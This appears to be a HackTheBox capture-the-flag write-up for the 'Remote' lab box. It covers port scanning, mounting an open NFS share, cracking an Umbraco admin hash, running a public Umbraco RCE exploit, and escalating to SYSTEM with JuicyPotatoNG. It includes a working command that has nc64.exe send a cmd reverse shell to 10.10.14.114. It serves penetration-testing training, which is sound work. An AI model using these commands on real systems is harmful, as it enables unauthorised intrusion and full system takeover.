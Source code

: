 # HackTheBox
------------------------------------
### IP: 10.129.230.96
### Name: Remote
### Difficulty: Easy
--------------------------------------------

Remote.png

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.86.1         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-26 08:58 CDT
Nmap scan report for 10.129.86.1
Host is up (0.083s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-26T14:59:12
|_  start_date: N/A
|_clock-skew: 59m58s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.21 seconds
```

Looking at port 80 we find a site, mostly featuring lorem ipsum:

remote_site.png

Kicking off some directory scanning we find several different endpoints:

remote_dirs.png

Before really digging into HTML I want to explore RPC on port 111.

We can see there is a share called `/site_backups` using `showmount`

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ showmount -e 10.129.86.1
Export list for 10.129.86.1:
/site_backups (everyone)
```

I'm going to mount this in my `/tmp`:

```
┌──(ryan㉿kali)-[/tmp/remote]
└─$ sudo mount -t nfs 10.129.86.1:/site_backups /tmp/remote
```

We can then inspect the contents:

remote_files.png

Looking through the files we find an Umbraco.sdf file.

We can run `strings` against it and find a few potential usernames:

remote_users.png

Sifting through all the data returned from `strings`, we finally reach the top of the output and discover an admin sha1 hash:

remote_admin_hash.png

Which we can crack using crackstation:

remote_crack.png

We can then login to the `/umbraco` page with `admin@htb.local:baconandcheese`

remote_in.png

Clicking on the admin profile button we can see the version `Umbraco version 7.12.4`

Looking for exploits we find: https://github.com/noraj/Umbraco-RCE

### Exploitation


Giving the exploit a shot we can confirm execution:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.86.1' -c powershell.exe -a '-NoProfile -Command whoami'
iis apppool\defaultapppool
```

Lets now grab a base64 encoded powershell reverse shell and catch a callback to our listener:

remote_shell.png

We can now grab the user.txt flag:

remote_user_flag.png

### Privilege Escalation

Running `whoami /all` we see that seImpersonatePrivileges is enabled:

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Lets copy over juicypotatoNG and nc.exe to the target to exploit this.

Once we have our files in place we can set up a new listener and run:

```
PS C:\users\Public\Desktop> ./juicypotatong.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\Public\Desktop\nc64.exe 10.10.14.114 445 -e cmd"
```

We then catch a shell back in our listener as system:

```
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.86.1] 49717
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

And we can grab the final flag:

remote_root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------------